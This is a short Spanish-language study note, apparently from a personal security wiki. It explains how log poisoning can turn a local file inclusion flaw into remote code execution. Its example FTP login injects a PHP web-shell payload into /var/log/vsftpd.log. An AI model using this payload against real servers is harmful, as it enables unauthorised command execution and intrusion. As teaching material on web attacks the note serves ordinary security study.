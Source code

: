 Como podemos pasar de un [[LFI & RFI|LFI]] a un [[RCE]] haciendo lectura de un Log.

**Que son los Logs?**
Son archivos de datos que genera el sistema, esto contiene la informacion sobre patrones de uso, activides, operaciones dentro del sistema, aplicaciones, servidor u otro servicio.

**Que es el archivo vsftpd.log?**
El archivo log vsftpd registra cualquier actividad de acuerdo al inicio de sesion o lo intentos fallidos de inicio de sesion por FTP, su ruta predeterminada `/var/log/vsftpd.log`.

**Que es un archivo auth.log?**
Contiene informacion de autorizacion del sistema, incluido los inicios de sesion de usuario y el mecanismo de autenticacion que se utlizaron.

**Nota:** Si deasea mas informacion sobre los diferentes archivos logs visite https://www.thegeekstuff.com/2011/08/linux-var-log-files/

Ahora si que es *Log Poisoning* es la tecnica comun mas utilizada para obtener una [[Revert shell]] de una vulnerabilidad [[LFI & RFI|LFI]]. Consiste en insertar entradas malintencionadas en los archivos logs.

Ahora supongamos que estamos frente a un LFI y queremos ver el `/var/log/auth.log` para aplicar un log poisoning al servicio ssh pero no podemos leer el log, asi que vamos por el servicio ftp y intentamos vizualizar el log `/var/log/vsftpd.log` y lo vizualizamos, ahora aplicaremos el envenenamiento el inicio de sesion de ftp.

	ftp host
	name: '<?php system($_REQUEST['commandInjection']); ?>'
	password: 
	530 Login incorrect.
	Login failed.

Si vizualizamos el log nuevamente podemos ver nuestra injeccion de codigo y con esto tendremos un [[RCE]].

